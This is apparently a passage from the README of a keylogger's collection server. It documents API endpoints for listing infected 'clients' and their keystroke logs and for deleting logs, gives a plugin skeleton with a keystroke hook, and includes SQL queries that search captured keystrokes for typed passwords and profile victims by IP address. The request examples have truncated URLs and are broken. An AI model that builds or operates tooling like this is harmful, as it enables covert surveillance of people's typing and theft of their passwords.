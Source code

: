 ### API Integration
```python
# REST API endpoints
POST /api/clients # Register new client
GET /api/clients # List all clients
GET /api/logs/{client_id} # Get client logs
POST /api/notifications # Send notifications
DELETE /api/logs/{id} # Delete specific logs

# Example API usage
import requests

# Get client data
response = requests.get('
clients = response.json()

# Send custom notification
notification = {
"type": "telegram",
"message": "Custom alert message",
"priority": "high"
}
requests.post(' json=notification)
```

### Custom Plugins
```python
# Plugin development framework
class CustomPlugin:
def __init__(self, server):
self.server = server

def on_keystroke(self, client_id, keystroke):
# Custom keystroke processing
pass

def on_client_connect(self, client_info):
# Custom client handling
pass

def on_data_received(self, data):
# Custom data processing
pass
```

### Database Queries
```sql
-- Advanced database queries
-- Find passwords being typed
SELECT * FROM logs WHERE key_data LIKE '%password%';

-- Analyze typing patterns
SELECT client_ip, COUNT(*) as keystrokes,
AVG(LENGTH(key_data)) as avg_length
FROM logs GROUP BY client_ip;

-- Export specific timeframe
SELECT * FROM logs
WHERE timestamp BETWEEN '2024-01-01' AND '2024-01-31'
ORDER BY timestamp;
```

---